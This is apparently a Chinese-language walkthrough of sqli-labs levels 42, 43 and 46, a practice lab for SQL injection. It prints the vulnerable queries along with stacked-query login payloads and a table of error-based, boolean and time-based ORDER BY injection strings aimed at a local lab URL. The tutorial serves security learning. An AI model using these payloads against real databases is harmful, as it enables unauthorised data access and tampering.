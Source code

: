 原 sql 语句为 

```
$sql="SELECT * FROM users WHERE username='$username' and password='$password'";
```

此处登录

```
username:admin 
Password:c';create table less42 like users#
```

登录时构造的 sql 语句为 

```
SELECT * FROM users WHERE username='admin' and password='c’;create table less42 like users#
```

# less43

```
username:admin 
Password:c');create table less43 like users#
```



# Less-46 order by后的 injection

本关的 sql 语句为

```
$sql = "SELECT * FROM users ORDER BY $id";
```

之前的sql语句

```
$sql =SELECT * FROM users WHERE id='$id'LIMIT0,1  
```

（1）order by 后的数字可以作为一个`注入点`。也就是构造 order by 后的一个语句，让 该语句执行结果为一个数，

我们尝试 http://127.0.0.1/sqli-labs/Less-46/?sort=right(version(),1) 没有报错，但是 right 换成 left 都一样，说明数字没有起作用，我们考虑布尔类型。此时我 们可以用报错注入和延时注入。 此处可以直接构造 ?sort= 后面的一个参数。此时，我们可以有三种形式，

①直接添加注入语句，?sort=(select ******)

②利用一些函数。例如 rand()函数等。?sort=rand(sql 语句) Ps：此处我们可以展示一下 rand(ture)和 rand(false)的结果是不一样的。

③利用 and，例如?sort=1 and (加 sql 语句)。 同时，sql 语句可以利用报错注入和延时注入的方式，语句我们可以很灵活的构造。 报错注入例子

 

| 注入语句                                                     | 数据库语句                                        |
| ------------------------------------------------------------ | ------------------------------------------------- |
| ?sort=right(version(),1)                                     | SELECT   * FROM users ORDER BY right(version(),1) |
| ?sort=rand(ture)                                             | 这里我的显示报错                                  |
| rand(false)                                                  | 正常显示                                          |
| ?sort=(select   count(*) from information_schema.columns group by concat(0x3a,0x3a,(select   user()),0x3a,0x3a,floor(rand()*2))) | 报错注入例子                                      |
| ?sort=rand(ascii(left(database(),1))=115)                    | rand注入   116或者其他数字会显示不变              |
| ?sort=(SELECT   IF(SUBSTRING(current,1,1)=CHAR(115), BENCHMARK(50000000,md5('1')),null)   FROM (select database() as current) as tb1) | 延时注入                                          |
| ?id=1' UNION   SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by 5 seconds')),null)),2,3 FROM (select database() as current) | BENCHMARK注入                                     |
| ?sort=1   and If(ascii(substr(database(),1,1))=115,0,sleep(5)) | 延时注入                                          |
| ?sort=1  procedure   analyse(extractvalue(rand(),concat(0x3a,version())),1) | procedure   analyse 参数后注入                    |